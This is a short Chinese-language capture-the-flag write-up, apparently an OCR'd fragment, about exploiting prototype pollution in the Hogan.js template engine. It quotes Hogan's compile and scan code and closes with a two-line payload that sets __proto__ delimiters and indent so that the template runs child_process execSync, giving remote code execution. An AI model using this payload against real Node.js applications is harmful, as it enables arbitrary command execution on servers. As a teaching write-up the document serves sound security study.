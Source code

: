 但是我们 function 没法使用

hogan 中指定自定义分隔符`options.delimiters`，我们可以通过 polluting 来设置`Object.prototype.delimiters`。

我们来看下具体内容

```plain
Hogan.compile = function(text, options) {
  options = options || {};
  ...
  template = this.generate(this.parse(this.scan(text, options.delimiters), text, options), text, options);
  return this.cache[key] = template;
}

Hogan.scan = function scan(text, delimiters) { // this parses the template into AST
  ...
  if (delimiters) {
    delimiters = delimiters.split(' ');
    otag = delimiters[0];
    ctag = delimiters[1];
  }
  ...
}
```

`options.delimiters`被传递到`Hogan.scan()`，它从 派生出开始标记标记 ( `otag`) 和结束标记标记 ( `ctag`) `options.delimiter`。

那就说找到一个`>`就可以在周围解析代码，因为题目中给了一段 html 代码，所以找到太容易了

```plain
__proto__ [delimiters]=tr %0a'
__proto__ [indent]=/*"));return process.mainModule.require(`child_process`).execSync(`/flag`).toString()//*/
```

这样设置即可 rce
